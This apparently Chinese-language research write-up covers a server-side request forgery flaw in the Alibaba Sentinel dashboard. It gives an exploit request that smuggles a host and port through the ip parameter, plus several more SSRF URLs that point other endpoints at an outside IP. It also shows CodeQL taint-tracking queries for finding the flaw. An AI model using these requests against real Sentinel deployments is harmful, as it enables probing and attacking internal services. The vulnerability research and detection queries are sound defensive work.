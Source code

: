 # Sentinel

随着微服务的流行，服务和服务之间的稳定性变得越来越重要。Sentinel 是面向分布式服务架构的**轻量级**流量控制产品，主要以流量为切入点，从流量控制、熔断降级、系统负载保护等多个维度来帮助您保护服务的稳定性。

[介绍](https://blog.csdn.net/u012190514/article/details/81383698)

## SSRF

https://github.com/alibaba/Sentinel/issues/2451

## source

![image-20220102190441213](https://user-images.githubusercontent.com/63966847/147877579-bc3f1a6c-e274-409e-98e3-401259ca6815.png)


![image-20220102190456538](https://user-images.githubusercontent.com/63966847/147877583-77e3152f-c4d8-4fd1-bd4f-8e1775df54bf.png)


## sink

![image-20220102190519809](https://user-images.githubusercontent.com/63966847/147877588-ff6b13b7-d192-4913-a419-e3044634df93.png)

exp

```
http://127.0.0.1:8080/registry/machine?app=SSRF-TEST&appType=0&version=0&hostname=TEST&ip=localhost:12345%23&port=0
```

## codeql

使用污点分析

其他ssrf不过需要登录。

```
http://127.0.0.1:8080/cluster/state_single?ip=1.116.136.120&port=3333&app=test

http://127.0.0.1:8080/authority/rules?ip=1.116.136.120&port=3333&app=test

http://127.0.0.1:8080/v1/flow/rules?ip=1.116.136.120&port=3333&app=test

http://127.0.0.1:8080/paramFlow/rules?ip=1.116.136.120&port=3333&app=test

http://127.0.0.1:8080/resource/machineResource.json?ip=1.116.136.120&port=3333&app=test

http://127.0.0.1:8080/system/rules.json?ip=1.116.136.120&port=3333&app=test

http://127.0.0.1:8080/gateway/api//list.json?ip=1.116.136.120&port=3333&app=test
```

因为能力有限只能分开弄

```java
/**
 * @id Sentinel
 * @name Ssrf
 * @description Ssrf
 * @kind path-problem
 * @problem.severity warning
 */

import java
import semmle.code.java.dataflow.TaintTracking
import semmle.code.java.dataflow.FlowSources
import semmle.code.java.security.QueryInjection
import DataFlow::PathGraph



class SsrfConfig extends TaintTracking::Configuration {
  SsrfConfig() { this = "SsrfConfig" }

  override predicate isSource(DataFlow::Node src) { 
    src instanceof RemoteFlowSource
  }//默认参数

  override predicate isSink(DataFlow::Node sink) {
    exists(//触发set ip操作
      Parameter p | p = sink.asParameter() and p.getCallable().getName() = "setIp" and p.getName() = "ip"
  )
  }
}

from SsrfConfig config, DataFlow::PathNode source, DataFlow::PathNode sink
where config.hasFlowPath(source, sink)
select source.getNode(), source, sink, "source"
```

```java
import java
    
from MethodAccess call, Method method, DataFlow::Node src
where method.hasName("setIp") and method.getDeclaringType().getAnAncestor().hasQualifiedName("com.alibaba.csp.sentinel.dashboard.discovery", "MachineInfo") and call.getMethod() = method and src instanceof RemoteFlowSource 
select call
```
---------------------------------------------------------------------------------
更新 2021/1/3

让safe6sec师傅看了看，师傅说sink点需要是危险的地方，之前的setip不能这样。

和师傅讨论弄了一下午加一晚上终于弄出来了(主要是safe6sec师傅在弄 hhhh

```ql
/**
 * @id Sentinel
 * @name Ssrf
 * @description Ssrf
 * @kind path-problem
 * @problem.severity warning
 */

import java
import semmle.code.java.dataflow.TaintTracking
import semmle.code.java.dataflow.FlowSources
import DataFlow::PathGraph

//连接setip到getip
predicate isTaintedString(Expr expSrc, Expr expDest) {
  exists(Method method1,Method method2, MethodAccess call1,MethodAccess call2|
    method1.getName()="setIp" and call1.getMethod() = method1 and expSrc = call1.getAnArgument()//获得setip方法的参数
    and
    method2.getName()="getIp" and call2.getMethod() = method2 and expDest = call2 
    )
}

class SsrfConfig extends TaintTracking::Configuration {
  SsrfConfig() { this = "SsrfConfig" }

  override predicate isSource(DataFlow::Node src) { 
    src instanceof RemoteFlowSource//默认的
   }

   //sink 
	override predicate isSink(DataFlow::Node sink) {
	   exists(ConstructorCall call, Class clz| 
		call.getAnArgument() = sink.asExpr()
		and call.getConstructedType()=clz 
		and clz.getName()="HttpGet"
		)
  }

  override predicate isAdditionalTaintStep(DataFlow::Node node1, DataFlow::Node node2) {
    isTaintedString(node1.asExpr(), node2.asExpr())
  }

}

from SsrfConfig config, DataFlow::PathNode source, DataFlow::PathNode sink
where config.hasFlowPath(source, sink)
select source.getNode(), source, sink, "source"

// from Method method1,MethodAccess call1,DataFlow::Node expSrc
// where method1.getName()="setIp" and call1.getMethod() = method1 and expSrc.asExpr() = call1.getAnArgument()
// select call1,expSrc,call1.getAnArgument(),1
```


